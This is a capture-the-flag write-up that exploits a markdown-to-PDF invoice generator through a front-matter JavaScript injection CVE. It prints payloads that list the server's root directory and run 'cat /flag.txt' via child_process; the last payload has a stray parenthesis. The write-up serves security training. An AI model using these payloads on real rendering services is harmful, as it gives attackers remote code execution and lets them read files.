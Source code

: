 # BlinkerFluids
> Write-up author: jon-brandy
## DESCRIPTION:
Once known as an imaginary liquid used in automobiles to make the blinkers work is now one of the rarest fuels invented on Klaus' home planet Vinyr. 
The Golden Fang army has a free reign over this miraculous fluid essential for space travel thanks to the Blinker Fluids™ Corp. 
Ulysses has infiltrated this supplier organization's one of the HR department tools and needs your help to get into their server. Can you help him?
## HINT:
- NONE
## STEPS:
1. First, open the host given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/214273575-71a1a116-e77c-4b78-b1f9-182231b3119a.png)


2. Let's try to see the pdf file.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/214273949-7f7e5773-32b8-4b91-a2b9-9cf8fdb88ab2.png)


3. Nothing that could be our interest here, so let's check the source code.

> RESULT - challenge - helpers

![image](https://user-images.githubusercontent.com/70703371/214274687-b6edf665-e6ef-4c59-8a60-461de194d9dc.png)


4. Next i did a small outsource about MD to PDF vulnerability and found out there's a CVE about it.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/214274957-8a8bed1b-1ef0-42d6-a59a-ae1a6d47d349.png)


5. Seems we can do RCE.
6. Checking the github issue and found another payload we can use.

![image](https://user-images.githubusercontent.com/70703371/214275839-a29d8ac3-3e27-45bf-b988-b58eb030e726.png)


7. Little bit confused for the first payload we got, but let's use the other one with more thumbs up :D.

![image](https://user-images.githubusercontent.com/70703371/214276416-57940a2d-9265-4b93-a0fa-0b838b63c4a5.png)


```js
---js
{
    css: `body::before { content: "${require('fs').readdirSync('/').join()}"; display: block }`,
}
---
```


8. Copy the payload -> create new invoice -> paste the script -> save. Open the pdf file.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/214276705-3860a1d1-dd40-4fbf-bfc4-6613fbcd6d5c.png)


9. Great we listed all the files and directories, notice there's a `flag.txt` file. Now to cat the flag we can utilize the payload we got at first. Grab this one and modify the payload

![image](https://user-images.githubusercontent.com/70703371/214277375-b811ab01-d3e7-4cc4-a628-27ce858e1c0f.png)


> FROM

```js
---js
{
    css: `body::before { content: "${}"; display: block }`,
}
---
```

> TO

```js
---js
{
    css: `body::before { content: "${require('child_process')).execSync('cat /flag.txt'}"; display: block }`,
}
---
```

